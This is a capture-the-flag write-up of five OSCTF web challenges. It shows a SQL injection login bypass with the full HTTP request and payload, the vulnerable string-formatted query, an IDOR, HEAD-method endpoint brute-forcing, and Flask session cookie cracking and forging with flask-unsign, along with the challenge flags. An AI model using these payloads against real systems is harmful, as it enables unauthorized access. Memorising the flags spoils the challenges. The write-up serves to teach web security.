

# OSCTF

## Introspection

Welcome to the Secret Agents Portal. Find the flag hidden in the secrets of the Universe!!!

Author: @5h1kh4r

Blackbox challenge, we are given the following page:



Turning Burpsuite on we dont catch nothign meaning that the request is made only in the frontend, openning the inspect code we catch the flag in the script.js:


Flag: OSCTF{Cr4zY_In5P3c71On}

## Style Query Listing...?

pfft.. Listen, I've gained access to this login portal but I'm not able to log in. The admins are surely hiding something from the public, but... I don't understand what. Here take the link and be quiet, don't share it with anyone

Author: @5h1kh4r

Another blackbox challenge, we have a login form to work on:


The title of the page says "SQL injection challenge"

```http
POST /login HTTP/1.1
Host: 34.16.207.52:3635
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://34.16.207.52:3635/
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://34.16.207.52:3635
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

username=' OR 1=1 ; -- &password=asd

```

Ĩf we try a simple sql injection in the username we get access to the profile page:


Lets try to make a union select:


It seems like the debugger of the python app is on, we can actually see the query made and more information about the source code:


query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"

Our focus in getting admin and go to admin endpoint.

So the username should be admin and we should inject the sql injection on the password so it gives us not the first entry of the table but the first entry where the username is admin:

Payload: `username=admin&password=' OR 1=1 ; --`


Flag: OSCTF{D1r3ct0RY_BrU7t1nG_4nD_SQL}

## Heads or Tails?

I was playing cricket yesterday with my friends and my flipped a coin. I lost the toss even though I got the lucky heads.

Author: @5h1kh4r

The hint: Try making a custom directory/file bruteforcing list that is made in the following format: (http_request_methods)-(words_related_to_ctf)

Another blackbox challenge where we get a clean html:


from the response it uses python: Server: Werkzeug/3.0.3 Python/3.8.19

It has three methods: Options, GET and HEAD:


Ideveloped the following script to create a wordlist with some words, the http methods and extensions:

```py
words = open("words.txt", "r")
list_words = [word.strip() for word in words.readlines()]

methods = open("methods.txt", "r")
list_methods = [method.strip() for method in methods.readlines()]

extensions = open("/home/w0rth/SecLists/Discovery/Web-Content/web-extensions.txt", "r")
list_extentions = [extension.strip() for extension in extensions.readlines()]

wordlist = open("wordlist.txt", "w+")
for i in list_methods:
    for j in list_words:
        for k in list_extentions:
            wordlist.write(f"{i}-{j}{k}\n")

```

Words i have used:

```txt
cricket
friends
heads
tails
flipped
coin
toss
lost
lucky
head
tail
osctf
altered
security
app
login
admin
```

I forgot to add flag to the words list, the endpoint that would be expect was /get-flag and the http method should be HEAD.


Flag: OSCTF{Und3Rr47Ed_H3aD_M3Th0D}

## Indoor WebApp 

The production of this application has been completely indoor so that no corona virus spreads, but that's an old talk right?

Author: @5h1kh4r

Once we go to the link and press view profile we understand that the application is making a get request to: `http://34.16.207.52:2546/profile?user_id=1`


If we just put the number 2 instead of 1 we get another profile making this a IDOR vulnerability and flag!


Flag: OSCTF{1nd00r_M4dE_n0_5enS3}

## Action Notes

I have created this notes taking app so that I don't forget what I've studied

Author: @5h1kh4r


If we try to use jwt_tool we get an error, it seems like it does not have the algorithm in the headers:


Tried sql injection in both the register and the login.
Tried all the SSTI for python since the server is python.
XXS is not possible because no BOT.

I think the vulnerability is on the jwt token.
After sometime i cracked the jwt secret: `flask-unsign --unsign --cookie "eyJ1c2VybmFtZSI6InRlc3QyMTMifQ.ZpKirg.NeEcUdx51_beLfIjFVIdC60Jqj8"`
Then sign a cookie with username admin: `flask-unsign --sign --cookie "{'username': 'admin'}" --secret 'supersecretkey'`
After that we replace the cookie and call /admin endpoint.


Flag: OSCTF{Av0id_S1mpl3_P4ssw0rDs}